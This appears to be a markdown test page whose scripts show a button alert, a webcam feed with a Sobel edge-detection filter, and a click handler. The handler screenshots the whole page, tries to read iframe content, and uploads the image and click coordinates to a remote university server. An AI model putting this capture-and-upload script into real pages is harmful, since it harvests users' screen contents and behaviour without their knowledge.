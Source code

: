 # Test Page with JavaScript!

This is a test page to see if JavaScript can access the user's webcam and apply a Sobel edge detection filter to the video.


## Example

Below is a button that triggers a JavaScript alert when clicked:

<button id="testButton">Click Me</button>

<script>
  // Simple JavaScript to display an alert when the page is loaded
  document.addEventListener("DOMContentLoaded", function () {
    // Show an alert as soon as the page loads
    //alert("The page has loaded successfully!");

    // Add functionality to the button
    const button = document.getElementById("testButton");
    button.addEventListener("click", function () {
      alert("You clicked the button!");
    });
  });
</script>



## Webcam with Edge Detection Filter

Below is a live feed from your webcam with an edge detection filter applied (if you allow access):

<video id="webcam" autoplay playsinline style="display: none;"></video>
<canvas id="canvas" style="width: 100%; max-width: 600px; border: 2px solid black;"></canvas>

<script>
  document.addEventListener("DOMContentLoaded", function () {
    const videoElement = document.getElementById("webcam");
    const canvas = document.getElementById("canvas");
    const ctx = canvas.getContext("2d");

    // Sobel kernels for edge detection
    const sobelX = [
      [-1, 0, 1],
      [-2, 0, 2],
      [-1, 0, 1],
    ];

    const sobelY = [
      [-1, -2, -1],
      [0, 0, 0],
      [1, 2, 1],
    ];

    // Check if the browser supports getUserMedia
    if (navigator.mediaDevices && navigator.mediaDevices.getUserMedia) {
      navigator.mediaDevices
        .getUserMedia({ video: true })
        .then((stream) => {
          videoElement.srcObject = stream;
          videoElement.onloadedmetadata = () => {
            canvas.width = videoElement.videoWidth;
            canvas.height = videoElement.videoHeight;
            processVideo();
          };
        })
        .catch((error) => {
          console.error("Error accessing webcam:", error);
          alert("Unable to access your webcam. Please check permissions or try a different browser.");
        });
    } else {
      alert("Your browser does not support webcam access.");
    }

    // Function to process the video and apply the Sobel edge detection filter
    function processVideo() {
      if (videoElement.readyState === videoElement.HAVE_ENOUGH_DATA) {
        ctx.drawImage(videoElement, 0, 0, canvas.width, canvas.height);
        const frame = ctx.getImageData(0, 0, canvas.width, canvas.height);
        const data = frame.data;

        // Create a copy of the data to store filtered results
        const output = new Uint8ClampedArray(data.length);

        const width = canvas.width;
        const height = canvas.height;

        // Perform Sobel filtering
        for (let y = 1; y < height - 1; y++) {
          for (let x = 1; x < width - 1; x++) {
            let pixelX = 0;
            let pixelY = 0;

            for (let kernelY = -1; kernelY <= 1; kernelY++) {
              for (let kernelX = -1; kernelX <= 1; kernelX++) {
                const pixelIndex =
                  ((y + kernelY) * width + (x + kernelX)) * 4;
                const gray =
                  (data[pixelIndex] +
                    data[pixelIndex + 1] +
                    data[pixelIndex + 2]) /
                  3; // Grayscale

                pixelX += gray * sobelX[kernelY + 1][kernelX + 1];
                pixelY += gray * sobelY[kernelY + 1][kernelX + 1];
              }
            }

            const magnitude = Math.sqrt(pixelX * pixelX + pixelY * pixelY);
            const outputIndex = (y * width + x) * 4;
            output[outputIndex] = magnitude; // Red
            output[outputIndex + 1] = magnitude; // Green
            output[outputIndex + 2] = magnitude; // Blue
            output[outputIndex + 3] = 255; // Alpha
          }
        }

        // Copy the filtered data to the canvas
        frame.data.set(output);
        ctx.putImageData(frame, 0, 0);
      }

      requestAnimationFrame(processVideo); // Loop the function
    }
  });
</script>




# Click Screenshot Capture & Upload (Handles Iframe Dynamically)

Click anywhere to take a screenshot of the **entire page**, including an iframe if it exists.

<script src="https://cdnjs.cloudflare.com/ajax/libs/html2canvas/1.4.1/html2canvas.min.js"></script>

<script>
  document.addEventListener("click", async function(event) {
    try {
      // Find the first iframe on the page (if any)
      const iframe = document.getElementsByTagName('iframe')[0];
      let mainCanvas, iframeCanvas;
      
      // Capture the main page content
      mainCanvas = await html2canvas(document.body);

      if (iframe) {
        try {
          // Try to access the iframe's content
          const iframeDoc = iframe.contentDocument || iframe.contentWindow.document;
          
          if (iframeDoc) {
            console.log("Iframe found and accessible. Capturing its content...");
            iframeCanvas = await html2canvas(iframeDoc.body);
          } else {
            console.warn("Iframe found but content is inaccessible. Skipping iframe.");
          }
        } catch (error) {
          console.warn("Unable to capture iframe due to security restrictions:", error);
        }
      }

      // Determine the final canvas size
      let finalCanvas = document.createElement("canvas");
      let finalCtx = finalCanvas.getContext("2d");

      if (iframeCanvas) {
        // Merge main page and iframe into one canvas
        finalCanvas.width = Math.max(mainCanvas.width, iframeCanvas.width);
        finalCanvas.height = mainCanvas.height + iframeCanvas.height;
        
        finalCtx.drawImage(mainCanvas, 0, 0);
        finalCtx.drawImage(iframeCanvas, 0, mainCanvas.height);
      } else {
        // No iframe, just use the main page capture
        finalCanvas.width = mainCanvas.width;
        finalCanvas.height = mainCanvas.height;
        finalCtx.drawImage(mainCanvas, 0, 0);
      }

      // Get the user's click position
      const clickX = event.clientX;
      const clickY = event.clientY;

      // Draw a red dot where the user clicked
      finalCtx.fillStyle = "red";
      finalCtx.beginPath();
      finalCtx.arc(clickX + 10, clickY + 3, 3, 0, 2 * Math.PI);
      finalCtx.fill();

      // Convert the final canvas to an image and send it to the server
      finalCanvas.toBlob((blob) => {
        const formData = new FormData();
        formData.append("screenshot", blob, "screenshot.png");
        formData.append("clickX", clickX);
        formData.append("clickY", clickY);

        fetch("https://cumberland.isis.vanderbilt.edu/skyler/save_screenshot.php", {
          method: "POST",
          body: formData
        })
        .then(response => response.json())
        .then(data => console.log("Upload successful:", data))
        .catch(error => console.error("Error uploading:", error));
      }, "image/png");

    } catch (error) {
      console.error("Screenshot capture failed:", error);
    }
  });
</script>
z